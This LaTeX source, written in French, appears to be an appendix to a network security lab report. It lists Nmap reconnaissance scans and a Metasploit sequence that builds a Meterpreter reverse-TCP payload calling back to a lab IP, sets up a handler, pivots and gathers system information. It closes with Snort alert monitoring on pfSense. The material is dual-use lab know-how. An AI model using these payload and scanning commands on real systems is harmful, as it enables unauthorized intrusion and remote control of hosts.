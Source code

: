\documentclass[12pt,a4paper,openany]{report}
\begin{document}
	\begin{lstlisting}[language=bash, caption={Commandes Nmap utilisées en reconnaissance}]
		# Scan SYN furtif d'un port spécifique
		nmap -sS -p 23 <cible>
		
		# Scan avec détection de version
		nmap -sV -p 22,23,80,139,445 <cible>
		
		# Scan complet des 1000 ports principaux
		nmap -sS -sV --top-ports 1000 <cible>
		
		# Scan agressif avec scripts NSE
		nmap -A -p 23,80,445 <cible>
		
		# Détection du système d'exploitation
		nmap -O <cible>
	\end{lstlisting}
	\textbf{Résultat :} Le jeu de commandes Nmap couvre la reconnaissance progressive, du ciblage simple à la caractérisation avancée de l’hôte. Cette gradation aide à adapter la collecte d’informations au niveau de discrétion souhaité. Elle structure la préparation des tests d’exploitation.
	
	\begin{lstlisting}[language=bash, caption={Commandes Metasploit pour exploitation et post-exploitation}]
		# Lancer msfconsole
		msfconsole -q
		
		# Rechercher un module
		search type:exploit name:telnet
		
		# Générer une charge utile Meterpreter
		msfvenom -p linux/x64/meterpreter/reverse_tcp \
		LHOST=192.168.100.150 LPORT=4445 \
		-f elf -o meterpreter.elf
		
		# Configurer un handler
		use exploit/multi/handler
		set PAYLOAD linux/x64/meterpreter/reverse_tcp
		set LHOST 192.168.100.150
		set LPORT 4445
		run
		
		# Ajouter une route de pivot
		route add 192.168.20.0 255.255.255.0 <session_id>
		
		# Post-exploitation : informations système
		sysinfo
		getuid
	\end{lstlisting}
	\textbf{Résultat :} La séquence Metasploit présente un enchaînement complet : initialisation, exploitation, puis vérification de session. Cette logique améliore la reproductibilité des manipulations offensives dans le laboratoire. Elle facilite aussi la corrélation avec les événements défensifs collectés.
	
	\begin{lstlisting}[language=bash, caption={Commandes Snort sur pfSense}]
		# Tester la syntaxe de la configuration Snort
		snort -T -c /usr/local/etc/snort/snort.conf
		
		# Lire les alertes en temps réel (pfSense)
		tail -f /var/log/snort/alert
		
		# Supprimer une règle générant des faux positifs
		# Dans pfSense : Services > Snort > Interface > Suppress List
		# Ajouter : suppress gen_id 1, sig_id <SID>
	\end{lstlisting}
	
\end{document}

